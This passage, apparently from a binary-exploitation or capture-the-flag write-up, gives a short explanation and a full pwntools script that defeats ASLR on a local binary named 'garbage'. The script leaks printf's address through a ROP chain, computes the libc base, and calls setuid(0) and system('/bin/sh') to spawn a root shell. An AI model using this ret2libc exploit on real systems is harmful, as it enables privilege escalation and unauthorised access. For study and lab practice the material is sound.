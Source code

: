 This is the most common way to bypass ASLR. Below code does the exact same thing but instead of manually finding and typing the addresses we use some pwntools magic. The code should be easy to grasp.
<br>
```python
from pwn import *

context(os='linux', arch='amd64')

p = process("./garbage")

garbage = ELF("garbage")
rop = ROP(garbage)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

# Stage 1 (Leaking the address of printf@GLIBC)
junk = "A"*136
rop.search(regs=['rdi'], order = 'regs')
rop.puts(garbage.got['printf'])
rop.call(garbage.symbols['main'])
log.info("Stage 1 ROP Chain:\n" + rop.dump())

payload = junk + str(rop)
p.sendline(payload)

p.recvuntil("denied.")
leaked_printf = p.recv()[:8].strip().ljust(8, "\00")

leaked_printf = u64(leaked_printf)
log.success("Leaked printf@GLIBC: " + hex(leaked_printf))

# Stage 2 (Obtaining the addresses and pwning)
libc.address = leaked_printf - libc.symbols['printf']
rop2 = ROP(libc)
rop2.setuid(0)
rop2.system(next(libc.search('/bin/sh\x00')))
log.info("Stage 2 ROP Chain:\n" + rop2.dump())

payload = junk + str(rop2)
p.sendline(payload)

p.interactive()
```
